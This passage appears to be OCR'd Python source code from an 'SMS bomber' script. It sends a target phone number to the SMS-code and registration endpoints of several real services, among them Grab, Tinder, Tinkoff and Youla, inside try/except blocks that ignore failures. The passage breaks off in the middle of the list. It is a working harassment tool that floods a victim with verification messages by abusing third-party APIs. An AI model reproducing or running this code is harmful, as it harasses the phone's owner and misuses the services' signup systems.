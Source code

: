         try:

            requests.post('https://p.grabtaxi.com/api/passenger/v2/profiles/register', data={'phoneNumber': _phone,'countryCode': 'ID','name': 'test','email': 'mail@mail.com','deviceToken': '*'}, headers={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.117 Safari/537.36'})

        except:

            s=s

        try:

            requests.post('https://moscow.rutaxi.ru/ajax_keycode.html', data={'l': _phone9}).json()["res"]

        except:

            s=s

        try:

            requests.post('https://belkacar.ru/get-confirmation-code', data={'phone': _phone}, headers={})

        except:

            s=s

        try:

            requests.post('https://api.gotinder.com/v2/auth/sms/send?auth_type=sms&locale=ru', data={'phone_number': _phone}, headers={})

        except:

            s=s

        try:

            requests.post('https://app.karusel.ru/api/v1/phone/', data={'phone': _phone}, headers={})

        except:

            s=s

        try:

            requests.post('https://api.tinkoff.ru/v1/sign_up', data={'phone': '+'+_phone}, headers={})

        except:

            s=s

        try:

            requests.post('https://api.mtstv.ru/v1/users', json={'msisdn': _phone}, headers={})

        except:

            s=s

        try:

            requests.post('https://youla.ru/web-api/auth/request_code', data={'phone': _phone})

        except:
